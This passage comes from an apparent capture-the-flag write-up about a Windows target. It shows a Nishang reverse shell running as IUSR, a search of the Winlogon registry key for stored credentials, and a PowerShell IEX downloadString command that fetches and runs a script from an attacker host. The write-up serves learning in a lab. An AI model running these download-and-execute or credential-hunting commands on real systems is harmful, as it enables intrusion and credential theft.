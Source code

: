     def print_status(i, l, max=30):
        sys.stdout.write("\r|{}>{}|  {:>15}/{}".format( "=" * ((i*max)//l), " " * (max - ((i*max)//l)), i, l))

    if __name__ == '__main__':
        if len(sys.argv) != 2:
            usage()
        main(sys.argv[1])



### Issues with Shells and Getting WinLogon Creds

Originally, I got on with my standard Nishang `Invoke-PowerShellTcp.ps1`
shell, and when I checked for winlogon creds, there were none there:



    PS HKLM:\software\microsoft\windows nt\currentversion\winlogon> whoami
    nt authority\iusr
    PS HKLM:\software\microsoft\windows nt\currentversion\winlogon> get-itemproperty .

    DefaultDomainName       :
    DefaultUserName         :
    EnableSIHostIntegration : 1
    PreCreateKnownFolders   : {A520A1A4-1780-4FF6-BD18-167343C5AF16}
    Shell                   : explorer.exe
    ShellCritical           : 0
    SiHostCritical          : 0
    SiHostReadyTimeOut      : 0
    SiHostRestartCountLimit : 0
    SiHostRestartTimeGap    : 0
    PSPath                  : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHIN
                              E\software\microsoft\windows
                              nt\currentversion\winlogon
    PSParentPath            : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHIN
                              E\software\microsoft\windows nt\currentversion
    PSChildName             : winlogon
    PSDrive                 : HKLM
    PSProvider              : Microsoft.PowerShell.Core\Registry



My shell loads as a 32-bit process:



    PS C:\> [Environment]::Is64BitProcess
    False



That's because `php-cgi` is running as a 32-bit process, as shown by the
`Get-32BitProcess` function as defined
[here](https://stackoverflow.com/a/43773871):



    PS C:\> IEX(New-Object Net.WebClient).downloadString('http://10.10.16.17:8888/process_arc.ps1')
    PS C:\>Get-32BitProcess
